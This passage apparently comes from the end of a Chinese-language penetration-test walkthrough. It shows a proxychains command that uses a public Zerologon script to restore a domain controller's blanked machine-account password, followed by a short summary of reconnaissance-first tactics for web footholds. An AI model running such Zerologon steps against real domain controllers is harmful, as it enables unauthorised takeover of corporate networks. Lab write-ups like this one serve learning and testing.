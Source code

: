 ### 恢复置空的密码

脚本下载地址：https://github.com/risksense/zerologon

还是使用 **代理** 去访问域控

```
proxychains4 python3 reinstall_original_pw.py ad01 10.10.10.139 8c8be1b1f3136f1e13cbe18c19ad1b5d
```

<img src=".\图片\7b407720361ce9fcd71873230350abd0.png" alt="7b407720361ce9fcd71873230350abd0" style="zoom:80%;" />

# 总结

web打点时别太注重暴力破解

关键是信息搜集，找cms源码和版本，下载本地搭建代码审计，web上下文枚举，找已知漏洞再利用，都不太行时再试试独立黑盒测试
